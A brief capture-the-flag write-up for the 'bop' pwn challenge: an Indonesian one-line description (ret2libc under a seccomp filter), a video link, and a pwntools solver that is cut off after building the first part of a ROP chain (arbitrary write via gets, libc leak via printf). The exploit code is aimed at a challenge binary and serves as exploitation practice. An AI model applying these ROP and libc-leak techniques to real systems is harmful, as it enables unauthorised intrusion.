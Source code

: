 ## bop (pwn)

Ret2libc dengan seccomp read, write, dan open
https://www.youtube.com/watch?v=EXTx8EY7QP4&list=PLUj83tCk_iA3TkyHd1pDdYRIjTpkp96mA&index=7

solver: 
```python
from pwn import *
import sys

BINARY = "./bop_patched"
context.binary = exe = ELF(BINARY, checksec=False)
context.terminal = "konsole -e".split()
context.log_level = "INFO"
context.bits = 64
context.arch = "amd64"
libc = ELF("./libc.so.6", checksec=False)

# bop gadget
main_addr = 0x4012f9
empty_addr = 0x404400
pop_rdi = 0x4013d3
ret_addr = 0x40101a

# libc gadget
mov_edi_eax = 0x5b623


def init():
    if args.RMT:
        p = remote(sys.argv[1], sys.argv[2])
    else:
        p = process()
    return Exploit(p), p


class Exploit:
    def __init__(self, p: process):
        self.p = p

    def debug(self, script=None):
        if not args.RMT:
            if script:
                attach(self.p, script)
            else:
                attach(self.p)

    def get_libc_addr(self):
        p = self.p
        p.recvuntil(b"Do you bop? ")
        r = ROP(exe)
        
        # write to arbitary address
        r.raw(pop_rdi)
        r.raw(empty_addr)
        r.gets()

        # leak via printf
        r.raw(pop_rdi)
        r.raw(empty_addr)
        r.printf()
        
        # return to main
        r.raw(ret_addr)
```